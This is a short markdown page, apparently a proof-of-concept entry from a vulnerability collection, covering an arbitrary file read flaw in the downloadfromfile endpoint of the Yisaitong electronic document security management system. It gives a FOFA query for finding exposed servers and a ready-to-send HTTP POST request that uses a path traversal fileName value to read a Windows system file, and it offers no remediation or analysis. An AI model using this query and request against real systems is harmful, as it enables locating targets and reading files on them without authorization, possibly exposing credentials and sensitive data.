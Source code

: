 ## 亿赛通电子文档安全管理系统downloadfromfile存在任意文件读取漏洞

## fofa
```
body="/CDGServer3/index.jsp"
```
## poc
```
POST /CDGServer3/downloadfromfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

fileName=../../../../../../../../../../../windows/win.ini
```
